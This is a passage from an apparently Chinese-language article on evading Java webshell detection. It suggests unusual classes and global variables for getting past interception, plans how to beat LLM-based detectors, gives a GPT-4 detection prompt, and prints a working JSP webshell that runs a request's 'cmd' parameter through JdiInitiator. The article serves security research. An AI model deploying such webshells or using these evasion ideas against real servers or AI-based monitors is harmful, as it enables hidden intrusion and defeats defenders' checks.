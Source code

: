    ![](/img/aiWebshell/4d73e0c3-57f4-4561-b64c-96331e870627.png)

  如果System.setProperty会被引擎识别或者拦截，则也可以像本文第一部分中找不常见的代码执行/系统执行的方法，找一些不常见的类会调System.setProperty的方法的类进行绕过。另外，从本质上说，任何可读写的全局变量、单例对象都可以用来进行参数的传递。

## 四、新的挑战

### （一）模型分析

2023年是大模型的元年，可以预想到接下来的各家检测引擎也会集成大模型的能力。因此在思考检测绕过时，也应该未雨绸缪，预演一下对大模型检测的绕过。

我使用GPT-4对本文中提供的各个样本进行了测试，感叹大模型的能力强悍的同时，也发现了一些潜在的机会和问题。

我使用的模型检测prompt如下：

```java
现在开始，你是一个Java WebShell检测器。我接下来会给你发一些用户上传的文件样本。如果该样本是一个可以执行任意危险操作的WebShell，那么你返回True。如果不是WebShell，那么你返回False。
```

测试发现，对于文章提到的第一类绕过方法，GPT-4都可以识别出来。这也很好理解，GPT-4的知识库是极其丰富的，因此很难找到GPT-4都不知道的命令执行/代码执行类。以如下样本为例：

```java
<%@ page import="java.util.HashMap" %>
<%@ page import="jdk.jshell.execution.JdiInitiator" %>
<%@ page import="java.util.List" %>
<%@ page import="java.util.ArrayList" %>
<%
	HashMap h = new HashMap();
	h.put("home","");
	h.put("vmexec",request.getParameter("cmd"));
	new jdk.jshell.execution.JdiInitiator(9999,new ArrayList<>(), "", true, "",5000, h);
%>
```

GPT-4回答如下：
